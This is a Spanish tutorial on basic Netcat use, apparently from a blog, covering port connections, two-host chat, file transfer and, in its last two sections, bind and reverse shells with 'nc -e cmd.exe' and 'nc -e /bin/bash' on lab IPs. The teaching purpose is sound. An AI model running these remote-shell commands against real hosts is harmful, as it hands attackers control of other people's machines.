 ```yaml
---
Title: Uso básico de Netcat
Authors: helmcode
Date: 21/11/2020
Categories: Linux
Published: Yes
---
```


# Uso básico de Netcat
Netcat es una herramienta de análisis de red que permite abrir puertos, transferir archivos, chatear, obtener una shell de un host remoto y muchas cosas mas.

**Después de esta rápida intro. Empecemos con el código!**

![programmer_gif](https://media.giphy.com/media/13HgwGsXF0aiGY/giphy.gif)

---
**🔹 Para conectarnos a un puerto de un host.**

- Ejemplo: Vamos a conectarnos al puerto 21 (FTP) de un host con IP: 192.168.0.100

```bash
nc -nv 192.168.0.100 21
```

---
**🔹 Para chatear desde dos hosts distintos a través de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100

  - host2: 192.168.0.101

En **host1** ejecutamos:

```bash
nc -nvlp 4444
```

En **host2** ejecutamos:

```bash
nc -nv 192.168.0.100 4444
```

Desde este momento ambos equipos estarán conectados al puerto 4444 y todo lo que se escriba en uno será transmitido al otro.
La comunicación es bidireccional.

Para cortar la conexión. Basta con pulsar CTRL + C

---
**🔹 Para transferir archivos entre dos hosts a traves de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100

  - host2: 192.168.0.101

Desde **host1** vamos a recibir un fichero. A través del puerto 4444. Para ello ejecutamos:

```bash
nc -nvlp 4444 > archivo_recibido.txt
```

En **host2** vamos a enviar el fichero por medio del mismo puerto. Para ello ejecutamos:

```bash
nc -nv 192.168.0.100 4444 < archivo_enviado.txt
```
---
**🔹 Bind Shell: conectarnos a la shell de un servidor por medio de un puerto**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100  ->  En este caso usaremos un Windows.

  - host2: 192.168.0.101  ->  En este caso será un Linux.

Desde **host1** vamos a servir la shell. A través del puerto 4444. Para ello ejecutamos:

```bash
nc -nvlp 4444 -e cmd.exe
```

En **host2** vamos a conectarnos al puerto indicado para tomar el control de la shell. Para ello ejecutamos:

```bash
nc -nv 192.168.0.100 4444
```

En cuanto se ejecute lo anterior. Tendremos el control de la shell de **host1** (Windows). Desde **host2** (Linux).

---
**🔹 Reverse Shell: servir la shell de un servidor por medio de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts Linux:

  - host1: 192.168.0.100

  - host2: 192.168.0.101

Desde **host1** vamos a levantar el puerto 4444 para que este escuchando. Para ello ejecutamos:

```bash
nc -nvlp 4444
```

En **host2** vamos a servir una shell a través del puerto indicado. Para ello ejecutamos:

```bash
nc -nv 192.168.0.100 4444 -e /bin/bash
```

En cuanto se ejecute lo anterior. Desde **host1** podremos tener el control de la shell ofrecida por **host2**. 